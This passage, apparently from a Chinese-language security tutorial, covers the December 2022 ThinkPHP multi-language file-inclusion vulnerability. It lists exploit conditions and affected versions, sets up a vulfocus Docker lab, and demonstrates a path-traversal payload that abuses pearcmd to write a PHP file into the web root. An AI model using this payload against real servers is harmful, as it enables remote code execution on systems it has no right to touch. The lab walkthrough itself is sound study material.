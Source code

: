 发现对 `| ` 限制不严格，其包含空格，可以使用不添加空格绕过：

![image-20231105110831156](https://img.wukaipeng.com/2023/11/05-110831-image-20231105110831156.png)

## ThinkPHP

Thinkphp 是一个免费开源的，快速、简单的面向对象的轻量级 PHP 开发框架，是为了敏捷 Web 应用开发和简化企业应用开发而诞生的。

2022 年 12 月，ThinkPHP 披露出在开启多语言功能的情况下存在文件包含漏洞，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越 + 文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

默认情况下，系统只会加载默认语言包，如果需要多语言自动侦测及自动切换，需要在全局的中间件定义文件中添加中间件定义，因此只有启用多语言并且使用存在漏洞的版本时才存在漏洞。

🔑 漏洞利用条件：

1. 多语言开启
2. 安装 Pear 库
3. 知道 pearcmd.PHP 路径
4. register_argc_argv = on

💥 漏洞范围：

1. 6.0.1 < ThinkPHP ≤ 6.0.13
2. 5.1.0 < ThinkPHP ≤ 5.1.8
3. 5.0.0 < ThinkPHP ≤ 5.0.12



### 环境搭建

安装 ThinkPHP：·

```bash
docker pull vulfocus/thinkphp:6.0.12
docker run -d -p 8080:80 --name=thinkphp vulfocus/thinkphp:6.0.12
```

访问 `http://YOUR_IP_ADDRESS:PORT/public/`

![](https://img.wukaipeng.com/2023/11/05-121646-te4OUO-image-20231105121646273.png)

### 演示

传入 `?lang=../../../../../../../../usr/local/lib/php/pearcmd`，出现该错误说明漏洞存在：

![](https://img.wukaipeng.com/2023/11/05-134533-CRlH1y-image-20231105134533378.png)

传入 EXP（Exploit，利用系统漏洞进行攻击的程序）：

`?lang=../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/var/www/html/wukaipeng.php`

![](https://img.wukaipeng.com/2023/11/05-135319-3PXoxe-image-20231105135319002.png)

写入成功，访问该文件：

![](https://img.wukaipeng.com/2023/11/05-135402-z1lqJZ-image-20231105135402344.png)
